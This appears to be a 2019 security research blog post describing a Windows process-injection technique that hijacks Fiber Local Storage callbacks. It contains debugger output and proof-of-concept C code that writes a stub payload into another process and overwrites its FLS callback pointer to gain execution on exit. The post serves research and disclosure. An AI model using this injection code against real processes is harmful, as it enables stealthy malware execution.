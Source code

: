 ```yaml
---
categories:
- windows
- code injection
comments: false
date: "2019-08-12T15:10:04Z"
title: Code Execution via Fiber Local Storage
---
```


While working on another research project (post to be released soon, will
update here), I stumbled onto a very Hexacorn[0] inspired type of code injection
technique that fit my situation perfectly. Instead of tainting the other post
with its description and code, I figured I'd release a separate post describing
it here.

When I say that it's Hexacorn inspired, I mean that the bulk of the strategy is
similar to everything else you've probably seen; we open a handle to the remote
process, allocate some memory, and copy our shellcode into it. At this point we
simply need to gain control over execution flow; this is where most of
Hexacorn's techniques come in handy. PROPagate via window properties,
WordWarping via rich edit controls, DnsQuery via code pointers, etc. Another
great example is Windows Notification Facility via user subscription callbacks
(at least in modexp's proof of concept), though this one isn't Hexacorns. 

These strategies are also predicated on the process having certain capabilities
(DDE, private clipboards, WNF subscriptions), but more importantly, most, if
not all, do not work across sessions or integrity levels. This is obvious and
expected and frankly quite niche, but in my situation, a requirement. 

## Fibers

Fibers are "a unit of execution that must be manually scheduled by the
application"[1]. They are essentially register and stack states that can be
swapped in and out at will, and reflect upon the thread in which they are
executing. A single thread can be running at most a single fiber at a time, but
fibers can be hot swapped during execution and their quantum user controlled. 

Fibers can also create and use fiber data. A pointer to this is stored in
`TEB->NtTib.FiberData` and is a per-thread structure. This is initially set
during a call to `ConvertThreadToFiber`. Taking a quick look at this:

```
void TestFiber()
{
    PVOID lpFiberData = HeapAlloc(GetProcessHeap(), 0, 0x10);
    PVOID lpFirstFiber = NULL;
    memset(lpFiberData, 0x41, 0x10);

    lpFirstFiber = ConvertThreadToFiber(lpFiberData);
    DebugBreak();
}

int main()
{
    DWORD tid = 0;
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)TestFiber, 0, 0, &tid);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

We need to spawn off the test in a new thread, as the main thread will 
always have a fiber instantiated and the call will fail. If we
run this in a debugger we can inspect the data after the break:

```
0:000> ~
.  0  Id: 1674.1160 Suspend: 1 Teb: 7ffde000 Unfrozen
#  1  Id: 1674.c78 Suspend: 1 Teb: 7ffdd000 Unfrozen
0:000> dt _NT_TIB 7ffdd000 FiberData
ucrtbased!_NT_TIB
   +0x010 FiberData : 0x002ea9c0 Void
0:000> dd poi(0x002ea9c0) l5
002ea998  41414141 41414141 41414141 41414141
002ea9a8  abababab
```

In addition to fiber data, fibers also have access to the fiber local storage 
(FLS). For all intents and purposes, this is identical to thread local storage
(TLS)[2]. This allows all thread fibers access to shared data via a global
index. The API for this is pretty simple, and very similar to TLS. In the
following sample, we'll allocate an index and toss some values in it. Using our
previous example as base:

```
lpFirstFiber = ConvertThreadToFiber(lpFiberData);
dwIdx = FlsAlloc(NULL);
FlsSetValue(dwIdx, lpFiberData);
DebugBreak();
```

A pointer to this data is stored in the thread's TEB, and can be extracted from
`TEB->FlsData`. From the above example, assume the returned FLS index for this
data is 6:

```
0:001> ~
   0  Id: 15f0.a10 Suspend: 1 Teb: 7ffdf000 Unfrozen
.  1  Id: 15f0.c30 Suspend: 1 Teb: 7ffde000 Unfrozen
0:001> dt _TEB 7ffde000 FlsData
ntdll!_TEB
   +0xfb4 FlsData : 0x0049a008 Void
0:001> dd poi(0x0049a008+(4*8))
0049a998  41414141 41414141 41414141 41414141
0049a9a8  abababab
```

Note that the offset is always the index + 2. 

## Abusing FLS Callbacks to Obtain Execution Control

Let's return to that `FlsAlloc` call from the above example. Its first 
parameter is a `PFLS_CALLBACK_FUNCTION`[3] and is used for, according to MSDN:

```
An application-defined function. If the FLS slot is in use, FlsCallback is
called on fiber deletion, thread exit, and when an FLS index is freed. Specify
this function when calling the FlsAlloc function. The PFLS_CALLBACK_FUNCTION
type defines a pointer to this callback function. 
```

Well isn't that lovely. These callbacks are stored process wide in
`PEB->FlsCallback`. Let's try it out:

```
dwIdx = FlsAlloc((PFLS_CALLBACK_FUNCTION)0x41414141);
```

And fetching it (assuming again an index of 6):

```
0:001> dt _PEB 7ffd8000 FlsCallback
ucrtbased!_PEB
   +0x20c FlsCallback : 0x002d51f8 _FLS_CALLBACK_INFO
0:001> dd 0x002d51f8 + (2 * 6 * 4) l1
002d5228  41414141
```

What happens when we let this run to process exit?

```
0:001> g
(10a8.1328): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=41414141 ebx=7ffd8000 ecx=002da998 edx=002d522c esi=00000006 edi=002da028
eip=41414141 esp=0051f71c ebp=0051f734 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
41414141 ??              ???
```

Recall the MSDN comment about _when_ the FLS callback is invoked: `..on fiber
deletion, thread exit, and when an FLS index is freed`. This means that worst
case our code executes once the process exits and best case following a
threads exit or call to `FlsFree`. It's worth reiterating that the primary
thread for each process will have a fiber instantiated already; it's quite
possible that this thread isn't around anymore, but this doesn't matter as the
callbacks are at the process level.

Another salient point here is the first parameter to the callback function.
This parameter is the value of whatever was in the indexed slot and is also
stashed in ECX/RCX before invoking the callback:

```
dwIdx = FlsAlloc((PFLS_CALLBACK_FUNCTION)0x41414141);
FlsSetValue(dwIdx, (PVOID)0x42424242);
DebugBreak();
```

Which, when executed:

```
(aa8.169c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=41414141 ebx=7ffd9000 ecx=42424242 edx=003c522c esi=00000006 edi=003ca028
eip=41414141 esp=006ef9c0 ebp=006ef9d8 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
41414141 ??              ???
```

Under specific circumstances, this can be quite useful. 

Anyway, PoC||GTFO, I've included some code below. In it, we overwrite the
`msvcrt!_freefls` call used to free the FLS buffer. 

```
#ifdef _WIN64
#define FlsCallbackOffset 0x320
#else
#define FlsCallbackOffset 0x20c
#endif

void OverwriteFlsCallback(LPVOID dwNewAddr, HANDLE hProcess) 
{
    _NtQueryInformationProcess NtQueryInformationProcess = (_NtQueryInformationProcess)GetProcAddress(GetModuleHandleA("ntdll"), 
                                                            "NtQueryInformationProcess");
    const char *payload = "\xcc\xcc\xcc\xcc";
    PROCESS_BASIC_INFORMATION pbi;
    SIZE_T sCallback = 0, sRetLen = 0;
    LPVOID lpBuf = NULL;

    //
    // allocate memory and write in our payload as one would normally do
    //

    lpBuf = VirtualAllocEx(hProcess, NULL, sizeof(SIZE_T), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBuf, payload, sizeof(SIZE_T), NULL);

    // now we need to fetch the remote process PEB
    NtQueryInformationProcess(hProcess, PROCESSINFOCLASS(0), &pbi,
                              sizeof(PROCESS_BASIC_INFORMATION), NULL);

    // read the FlsCallback address out of it
    ReadProcessMemory(hProcess, (LPVOID)(((SIZE_T)pbi.PebBaseAddress) + FlsCallbackOffset), 
                          (LPVOID)&sCallback, sizeof(SIZE_T), &sRetLen);
    sCallback += 2 * sizeof(SIZE_T);

    // we're targeting the _freefls call, so overwrite that with our payload
    // address 
    WriteProcessMemory(hProcess, (LPVOID)sCallback, &dwNewAddr, sizeof(SIZE_T), &sRetLen);
}
```

I tested this on an updated Windows 10 x64 against notepad and mspaint; on 
process exit, the callback is executed and we gain control over execution flow.
Pretty useful in the end; more on this soon...

## References
[0] http://www.hexacorn.com   
[1] https://docs.microsoft.com/en-us/windows/win32/procthread/fibers   
[2] https://docs.microsoft.com/en-us/windows/win32/procthread/thread-local-storage   
[3] https://docs.microsoft.com/en-us/windows/win32/api/winnt/nc-winnt-pfls_callback_function   
